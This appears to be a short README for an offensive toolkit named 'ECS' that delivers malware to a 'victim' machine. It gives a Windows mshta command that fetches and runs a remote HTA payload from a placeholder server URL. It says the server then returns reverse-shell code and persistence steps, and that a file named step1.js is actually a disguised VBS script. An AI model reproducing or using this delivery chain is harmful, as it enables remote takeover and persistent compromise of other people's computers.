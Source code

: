 # ECS
![](./ECC.png)

## $${\color{red} step1: }$$        

 <span style="color:blue"> victim exec the malware or rce on victim : </span>
#### <span style="color:blue"> For windows:  </span>
```powershell  
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this > 
``` 
## <span style="color:blue"> step 2 </span>
<span style="color:blue"> server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app  </span>


